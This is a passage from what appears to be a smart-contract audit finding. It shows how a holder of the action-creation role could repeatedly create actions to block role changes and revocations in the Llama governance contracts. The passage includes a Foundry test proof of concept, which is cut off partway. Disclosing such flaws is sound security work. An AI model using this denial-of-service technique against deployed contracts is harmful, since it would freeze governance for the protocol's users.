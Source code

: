 <https://github.com/code-423n4/2023-06-llama/blob/main/src/LlamaPolicy.sol#L404-#L409> <br><https://github.com/code-423n4/2023-06-llama/blob/main/src/LlamaCore.sol#L516-#L562>

### Proof of Concept

Currently, when Executor want to set role for a user, he call function `LlamaPolicy._setRoleHolder`, this in turn will first call function `_assertNoActionCreationsAtCurrentTimestamp`:

    /// @dev Because role supplies are not checkpointed for simplicity, the following issue can occur
      /// if each of the below is executed within the same timestamp:
      //    1. An action is created that saves off the current role supply.
      //    2. A policyholder is given a new role.
      //    3. Now the total supply in that block is different than what it was at action creation.
      // As a result, we disallow changes to roles if an action was created in the same block.
      function _assertNoActionCreationsAtCurrentTimestamp() internal view {
        if (llamaExecutor == address(0)) return; // Skip check during initialization.
        address llamaCore = LlamaExecutor(llamaExecutor).LLAMA_CORE();
        uint256 lastActionCreation = LlamaCore(llamaCore).getLastActionTimestamp();
        if (lastActionCreation == block.timestamp) revert ActionCreationAtSameTimestamp();
      }

As stated in the comment, the protocol disallows changes to roles if an action was created in the same block. However, function `LlamaCore._createAction` does not limit the number of actions a user could create. Consequently, a user with createAction role can DOS protocol's policy by creating large amount of actions. A user can create 24 &ast; 3600 &ast; 30 \~ 2.5 mils actions to DOS a system in a month, this is definitely a not too big number, especially when the protocol is deployed in low fee blockchains. (I notice that the folder `script` is organized as `script/input/{blockchainId}/*.json` so I assume that the protocol will be used across different blockchains).

This will prevents the revoking of expired roles, revoke policy,... because they all use `_setRoleHolder` function.

Below is a POC, for ease of testing, place this test case under file LlamaStrategy.t.sol, contract IsActionApproved:

    function testDOSByCreatingManyAction() public {
        ILlamaStrategy testStrategy = deployTestStrategy();
        uint256 numberOfHolders = 10;
        generateAndSetRoleHolders(numberOfHolders);

        // create action
        bytes32 newPermissionId = keccak256(abi.encode(address(mockProtocol), PAUSE_SELECTOR, testStrategy));
        vm.prank(address(mpExecutor));
        mpPolicy.setRolePermission(uint8(Roles.ActionCreator), newPermissionId, true);
        bytes memory data = abi.encodeCall(MockProtocol.pause, (true));
        vm.prank(actionCreatorAaron);
        uint256 actionId = mpCore.createAction(uint8(Roles.ActionCreator), testStrategy, address(mockProtocol), 0, data, "");
        console.logUint(actionId);
        // revert if we try to set role
        vm.prank(address(mpExecutor));
        vm.expectRevert(LlamaPolicy.ActionCreationAtSameTimestamp.selector);
        mpPolicy.setRoleHolder(uint8(Roles.TestRole1), address(12345), 1, type(uint64).max);
